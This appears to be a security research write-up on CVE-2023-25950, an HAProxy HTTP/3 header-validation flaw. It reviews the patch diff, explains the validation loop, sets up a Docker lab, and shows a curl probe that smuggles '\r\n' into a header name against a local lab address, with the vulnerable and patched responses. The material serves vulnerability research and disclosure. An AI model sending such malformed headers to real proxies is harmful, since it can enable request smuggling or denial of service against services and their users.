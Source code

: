 ```yaml
---
layout: post
title: HTTP3ONSTEROIDS
date: 2023-08-01
Author: dhmosfunk
tags: [http3, poc, research, request smuggling, cve-2023-25950]
comments: true
toc: true
---
```


![](https://github.com/dhmosfunk/HTTP3ONSTEROIDS/raw/main/assets/images/image.png)

## Vulnerability Description

HAProxy's HTTP/3 implementation fails to block a **malformed HTTP header field name**, and **when deployed in front of a server that incorrectly process this malformed header**, it may be used to conduct an HTTP request/response smuggling attack. A remote attacker may alter a legitimate user's request. As a result, the attacker may obtain sensitive information or cause a denial-of-service (DoS) condition.

[https://jvn.jp/en/jp/JVN38170084/](https://jvn.jp/en/jp/JVN38170084/)

### Source Code Review

A very good approach before starting any research on CVEs is to begin by reading the vulnerability description and then check if the commit(s) for patching are available. \
In my case, the commit was available, and it is evident that the developers of HAProxy forgot to include the **[RFC 9114 4.1.2. Malformed Requests and Responses](https://datatracker.ietf.org/doc/html/rfc9114#name-malformed-requests-and-resp)** checks during the parsing of the standard headers on **HTTP3 implementation**.

Refer to the patch commit below.

```diff
--- a/src/h3.c
+++ b/src/h3.c
@@ -352,7 +352,27 @@ static ssize_t h3_headers_to_htx(struct qcs *qcs, const struct buffer *buf,
        //struct ist scheme = IST_NULL, authority = IST_NULL;
        struct ist authority = IST_NULL;
        int hdr_idx, ret;
-       int cookie = -1, last_cookie = -1;
+       int cookie = -1, last_cookie = -1, i;
+
+       /* RFC 9114 4.1.2. Malformed Requests and Responses
+        *
+        * A malformed request or response is one that is an otherwise valid
+        * sequence of frames but is invalid due to:
+        * - the presence of prohibited fields or pseudo-header fields,
+        * - the absence of mandatory pseudo-header fields,
+        * - invalid values for pseudo-header fields,
+        * - pseudo-header fields after fields,
+        * - an invalid sequence of HTTP messages,
+        * - the inclusion of uppercase field names, or
+        * - the inclusion of invalid characters in field names or values.
+        *
+        * [...]
+        *
+        * Intermediaries that process HTTP requests or responses (i.e., any
+        * intermediary not acting as a tunnel) MUST NOT forward a malformed
+        * request or response. Malformed requests or responses that are
+        * detected MUST be treated as a stream error of type H3_MESSAGE_ERROR.
+        */

        TRACE_ENTER(H3_EV_RX_FRAME|H3_EV_RX_HDR, qcs->qcc->conn, qcs);

@@ -416,6 +436,14 @@ static ssize_t h3_headers_to_htx(struct qcs *qcs, const struct buffer *buf,
                if (isteq(list[hdr_idx].n, ist("")))
                        break;

+               for (i = 0; i < list[hdr_idx].n.len; ++i) {
+                       const char c = list[hdr_idx].n.ptr[i];
+                       if ((uint8_t)(c - 'A') < 'Z' - 'A' || !HTTP_IS_TOKEN(c)) {
+                               TRACE_ERROR("invalid characters in field name", H3_EV_RX_FRAME|H3_EV_RX_HDR, qcs->qcc->conn, qcs);
+                               return -1;
+                       }
+               }
+
                if (isteq(list[hdr_idx].n, ist("cookie"))) {
                        http_cookie_register(list, hdr_idx, &cookie, &last_cookie);
                        continue;
```

[Repositories - haproxy-2.7.git/commit](https://git.haproxy.org/?p=haproxy-2.7.git;a=blobdiff;f=src/h3.c;h=5f1c68a29e5d05f4ce18e8dfea2334b7009aa03e;hp=97e821efefb3d52b4d55d311c4043194247ad2ea;hb=3ca4223c5e1f18a19dc93b0b09ffdbd295554d46;hpb=20bd4a8d1507e3ee6d52cc5af6c23a006b0e3a75)

Below, you can find the code that demonstrates the absence of header name sanitization in the implementation of handling standard headers on **HAProxy 2.7.0**.

```c
/*
src/h3.c
lines: 413 - 428
*/

/* now treat standard headers */
hdr_idx = 0;
while (1) {
    if (isteq(list[hdr_idx].n, ist("")))
        break;
    if (isteq(list[hdr_idx].n, ist("cookie"))) {
        http_cookie_register(list, hdr_idx, & cookie, & last_cookie);
        continue;
    }
    if (!istmatch(list[hdr_idx].n, ist(":")))
        htx_add_header(htx, list[hdr_idx].n, list[hdr_idx].v);
    ++hdr_idx;
}
```

Below, you can find the code that is used to check if header name is valid. \
\
The code starts with a for loop that iterates through each character of a header field name. The loop runs from `i = 0` to `i < list[hdr_idx0.n.len]`, where `list` is an array or structure containing header information, and `hdr_idx` is an index representing the spicific header being checked.\
Inside the loop , the code extracts the current character `c` from the header field name.
`list[hdr_idx].n.ptr[i]` accesses the character at the `i`-th position in the header field's name.
The next part of the code contains an `if` statement. It checks whether the current character `c` satisfies one of two conditions:

- `(uint8_t)(c - 'A') < 'Z' - 'A'`: This checks if the character is an uppercase letter (A to Z) by subtracting 'A' from `c` and casting the result to `uint8_t` If the result is less than the difference between 'Z' and 'A', then the character is an uppercase letter.
- `!HTTP_IS_TOKEN(c)`: This condition checks if the character is a valid HTTP token character. The `HTTP_IS_TOKEN` works by first checking if the header name contains any tokens. A token is a sequence of characters that is not a reserved character in the HTTP protocol. Reserved characters are characters that have special meaning in the HTTP protocol, e.g. `:`, `/`, `?`, and `#`.

```c
/*
src/h3.c
lines: 439 - 445
*/
for (i = 0; i < list[hdr_idx].n.len; ++i) {
    const char c = list[hdr_idx].n.ptr[i];
    if ((uint8_t)(c - 'A') < 'Z' - 'A' || !HTTP_IS_TOKEN(c)) {
        TRACE_ERROR("invalid characters in field name", H3_EV_RX_FRAME | H3_EV_RX_HDR, qcs -> qcc -> conn, qcs);
        return -1;
    }
}
```

## Lab Setup

The entire lab is running on Docker. You can run the lab with the following commands:

1. `cd /lab`
2. `docker-compose up --build`

Please note that the Docker build will take **15-20** minutes to finish. \
However, before running the lab, you have to make some configuration changes:

`/lab/haproxy/conf/haproxy.cfg`

```bash
...
default_backend api_server

backend api_server
  balance roundrobin
  server api_server [YOUR-LOCAL-IPv4]:8080 # replace with local IPv4
```

`/etc/hosts`

```bash
[YOUR-LOCAL-IPv4]   foo.com
```

`/lab/docker-compose.yml` \
You can choose between the vulnerable version and the patched version by changing the argument's value to **'vuln'** or **'patched'** to conduct your test on it.

```
...
    args:
        - haproxy_version=patched || vuln
...
```

and finally import the **minica.crt** certificate in your browser.

⚠️ Please run the lab in a Linux environment.

## Identifying the issue

Sending the following curl request:

- `curl --http3 -H "foooooo\r\n: barr" -iL -k  https://192.168.1.104/`

Vulnerable version response:

```
HTTP/3 200
server: Werkzeug/2.3.6 Python/3.8.17
date: Sat, 12 Aug 2023 13:10:52 GMT
content-type: text/html; charset=utf-8
content-length: 76
alt-svc: h3=":443";ma=900;

Host: 192.168.1.104
User-Agent: curl/8.1.2-DEV
Accept: */*
Foooooo\R\N: barr <-- Malformed header
```

Patched version response:

```
curl: (56) HTTP/3 stream 0 reset by server
```

Based on the above findings, the corresponding responses indicate that the vulnerable version of HAProxy allowed the **\r\n** prefix to pass through to the backend server, whereas the patched version dropped the connection between the client and HAProxy.

---

An attacker can conduct an HTTP Request Smuggling attack based on backend behavior and how the backend server will treat the malformed header. In my view, the most significant concern is that an attacker could exploit the aforementioned CVE to carry out a Denial of Service (DoS) attack.

## References:

[https://jvn.jp/en/jp/JVN38170084/](https://jvn.jp/en/jp/JVN38170084/) \
[https://github.com/haproxytechblog/haproxy-2.6-http3](https://github.com/haproxytechblog/haproxy-2.6-http3) \
[https://www.haproxy.com/blog/how-to-enable-quic-load-balancing-on-haproxy](https://www.haproxy.com/blog/how-to-enable-quic-load-balancing-on-haproxy) \
[https://git.haproxy.org/](https://git.haproxy.org/) \
[https://github.com/jsha/minica](https://github.com/jsha/minica) \
[https://curl.se/docs/http3.html](https://curl.se/docs/http3.html)
